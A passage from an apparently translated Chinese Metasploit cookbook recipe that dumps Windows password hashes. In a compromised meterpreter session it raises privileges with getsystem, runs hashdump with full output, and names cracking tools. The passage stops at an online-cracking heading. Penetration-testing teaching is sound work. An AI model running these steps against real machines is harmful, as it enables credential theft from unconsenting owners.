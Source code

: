 在开始烹饪之前，让我们先了解一下 Windows 密码及其存储格式。

当您在 Windows 登录屏幕上输入密码时，它会使用一个加密方案对您的密码进行加密，将您的密码转换成类似于这样的东西：

`7524248b4d2c9a9eadd3b435c51404ee`

这是一个密码哈希。这实际上是在您输入密码时进行检查的内容。它会加密您输入的内容，并将其与存储在注册表和/或 SAM 文件中的内容进行比对。

SAM 文件保存了本地机器上每个帐户或域（如果是域控制器）的用户名和密码哈希。它可以在硬盘驱动器的`%systemroot%system32config`文件夹中找到。

然而，只有在机器运行时，这个文件夹才对包括管理员在内的所有帐户进行了锁定。在操作过程中，唯一可以访问 SAM 文件的帐户是“系统”帐户。因此，您必须记住，在尝试转储哈希时，您需要提升权限。

哈希对您来说可能完全陌生，因为它们是加密文本。Windows 使用**NTLM（NT LAN Manager）**安全协议进行身份验证。它是 LM 协议的后继者，LM 协议用于旧版本的 Windows。

为了解码转储的哈希，我们将需要一个 NTLM/LM 解密器。有不同的工具可用。其中一些使用暴力破解技术（John the riper，pwdump），而另一些使用彩虹表（彩虹破解）。

## 如何做到这一点...

我们将从一个活动的 meterpreter 会话开始。我假设您已经渗透了目标并获得了一个 meterpreter 会话。您可以参考第四章中的配方，*客户端利用和防病毒绕过*，以获取有关入侵 Windows 机器的更多详细信息。脚本的使用简单直接。让我们首先检查目标机器上的权限。我们必须拥有系统权限才能提取哈希。我们将使用`getuid`命令来了解我们当前的权限级别。为了提升我们的权限，我们将使用`getsystem`命令。

```
meterpreter > getuid
Server username: DARKLORD-PC\DARKLORD
meterpreter > getsystem
...got system (via technique 4).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM 
```

## 工作原理...

现在我们在目标上拥有系统权限，所以我们可以继续尝试 hashdump 脚本。

```
meterpreter > run hashdump
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 78e1241e98c23002bc85fd94c146309d...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hashes...
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DARKLORD:1000:aad3b435b51404eeaad3b435b51404ee:3dbde697d71690a769204beb12283678::: 
```

您可以看到脚本已成功从 SAM 文件中提取了密码哈希。现在我们可以使用不同的工具来破解这个哈希。一些知名的工具有 John the riper、pwdump、rainbow crack 等。

## 还有更多...

让我们看看除了使用之前讨论的工具之外，解密哈希的另一种方法。

### 在线密码解密
